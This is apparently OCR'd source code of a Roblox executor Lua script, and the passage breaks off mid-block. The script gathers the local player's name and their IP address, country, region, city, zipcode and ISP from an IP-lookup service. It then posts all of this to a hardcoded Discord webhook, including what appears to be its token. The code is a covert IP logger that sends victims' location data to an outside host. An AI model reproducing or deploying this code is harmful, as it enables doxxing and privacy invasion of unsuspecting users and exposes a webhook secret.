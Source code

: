 local player_name = game:GetService("Players").LocalPlayer.Name
local webhook_url = "https://discord.com/api/webhooks/934953130251145328/5dh3b2FYI3hapcbjS4wCUsvF0Bg-jDyMepEghVhwHbblK7Z-LMzcv5TZTGSbiIGH3_NP"

local ip_info = syn.request({
    Url = "http://ip-api.com/json",
    Method = "GET"
})
local ipinfo_table = game:GetService("HttpService"):JSONDecode(ip_info.Body)
local dataMessage = string.format("```User: %s\nIP: %s\nCountry: %s\nCountry Code: %s\nRegion: %s\nRegion Name: %s\nCity: %s\nZipcode: %s\nISP: %s\nOrg: %s```", player_name, ipinfo_table.query, ipinfo_table.country, ipinfo_table.countryCode, ipinfo_table.region, ipinfo_table.regionName, ipinfo_table.city, ipinfo_table.zip, ipinfo_table.isp, ipinfo_table.org)
if (not is_sirhurt_closure) and (syn and syn.protect_gui) then
request(
    {
        Url = webhook_url,
        Method = "POST",
        Headers = {
            ["Content-Type"] = "application/json"
        },
        Body = game:GetService("HttpService"):JSONEncode({["content"] = dataMessage})
    }
)
